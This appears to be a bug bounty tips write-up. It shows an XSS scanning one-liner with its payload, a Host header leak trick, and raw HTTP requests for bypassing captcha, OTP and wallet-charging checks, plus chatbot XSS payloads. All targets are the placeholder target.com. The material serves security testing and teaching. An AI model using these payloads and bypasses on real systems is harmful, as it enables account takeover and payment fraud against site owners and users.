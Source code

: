 # Writeups (Golden tips)

## Information Disclosure
```bash
# directory fuzzing for sensitive files
dirsearch -u “https://target.com” -t 150 -x 403,404,500,429 -i 200,301,302 --random-agent
```
## Reflected XSS (Non-Persistent XSS)
```bash
# XSS one liner
echo "target.com" | gauplus | grep "?" | qsreplace 'xssz"><img/src=x onerror=confirm(999)><!--' | httpx -mr '"><img/'
```
**What this command do?**

1st it look for urls using a tool called `gauplus` or you can use `waybackurls` or waymore, thes are great tools too to find archived urls, then it get all the urls with parameters and replace all the values of the parameter with the payload `xssz”><img/src=x onerror=confirm(999)><!--` than using `HTTPX` tool it will give you all the request that contain our malicious payload on the responce with no filters.

## The Blank Host Header trick
**Concise tip:** Try to find places in websites where the “host” HTTP header is reflected on the page. If you find this, try a blank host header in the request and the website may leak internal hostnames!

If a site is reflecting the host header in the response even when you it to something like example.com, it may be vulnerable to this. First, you need to change the HTTP protocol on the request from `HTTP/1.1`, the default, to `HTTP/1.0`. This is because empty host headers are invalid in the newer protocol. This is done in different ways depending on how you are replaying this HTTP request, but for example in Burp Repeater, you simply change `HTTP/1.1` in the top line of the request to `HTTP/1.0`. Next, you want to make the `host` HTTP header **blank**, so it looks like `Host:`. Now when you send the request, the response may show an IP address or a weird looking web address where the host header was previously reflected. **99%** of the time this is an **internal hostname or an internal IP address**. These can be used in other exploits to perform attacks on internal infrastructure, so companies generally do not want these leaked!

This is common on `Apache` servers when the bottom line of an error page reads something like **Apache Server at example.com Port 443** because example.com is simply being reflected from the host header in the request.


## Captcha Bypass
1. The following request is related to entering the system:
```html
POST /Auth/LoginWithPasswordCaptcha HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","captchaCode":"acvb","captchaId":"77e148fc-9fb8-48a5-af25-699761fbb223","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```
2. If the attacker deletes the captcha code variable in the body and changes /Auth/LoginWithPasswordCaptcha to /Auth/LoginWithPassword in the url, the implemented captcha mechanism will be bypassed and the attacker can implement it this way. make a pervasive search attack.
```html
POST /Auth/LoginWithPassword HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

Connection: close{"username":"XXXXX","password":"111111","deviceName":"Netscape-5.0 (Windows)","deviceInfo":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0"}
```

## OTP Bypass
1. The following request is a request to check the otp in the digital signature section:
```html
POST /SignatureCertificate/CheckOtp HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
---snip---

```
2. If the entered otp is wrong, the following answer will be returned:
```html
HTTP/1.1 400 Bad Request
Server: nginx
Content-Type: application/json; charset=utf-8
Set-Cookie: cookiesession1=678B286C2DE65BDFC274EB1DEB4B88A6;Expires=Tue, 29 Jul 2025 11:54:43 GMT;Path=/;HttpOnly
---snip---

{"isFailed":true,"isSuccess":false,"reasons":[{"message":"Your code has expired! Please get a new code!","metadata":{}}]," errors":[{"reasons":[],"message":"Your code has expired! Please get a new code!","metadata":{}}],"successes":[]}
```
3. If the attacker sets the `isFailed` value to `False` and the `isSuccess` value to `True` in this **response**, he can easily bypass the OTP authentication mechanism without having access to the correct code!

## Wallet Charging Bypass
1. By using this attack, the attacker can pay a smaller amount and charge a larger amount to his wallet by changing the tokens. First, buy 5$ normally in the charging section of the wallet and do not send the call back request, drop it and intercept it:

**Sample call back request**
```html
POST /ResultTransaction?trackingCode=51376940 HTTP/1.1
Host: target.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0 
---snip---
 
Token=28907420839252952&OrderId=51376940&TerminalNo=85053207&RRN=743808093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC0D404DBF729427517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct=
```
2. Then make a new payment with a higher amount and click cancel at the time of payment and intercept the corresponding call back and put the body of the previous request in this request and finally put the `orderId` of the higher amount request in the request.
3. Final request:
```html
POST /ResultTransaction?trackingCode=51489803 HTTP/1.1
Host: target.com 
---snip---

Token=28907420839252952&OrderId=51489803&TerminalNo=8521900539207&RRN=743807548093455&status=0&HashCardNumber=1AAC1ADAF6CB22AC450D404DBF7294277517001DB42EC74282B0A182A2B011968CF&Amount=100%2C000&SwAmount=&STraceNo=400534&DiscoutedProduct==
```
* Finally, the message of unsuccessful transaction is displayed to the user, but the **wallet is charged successfully**.

## XSS on Chatbot
1. Recon on wildcard target `*.target.com` by `subfinder` and `httpx`
2. Find `https://support.target.com/robots.txt` and then open the `https://support.target.com/` and see a chatbot
3. Send `<u>wearehackerone</u>`
4. Then guess what, it take the HTML tag and **render** it into the box
5. Send `<img src=1 href=1 onerror="javascript:alert(1)">`


![chatbot-xss](https://github.com/user-attachments/assets/0f75b8a4-b890-41e0-b3e0-e17dc450c8cf)




















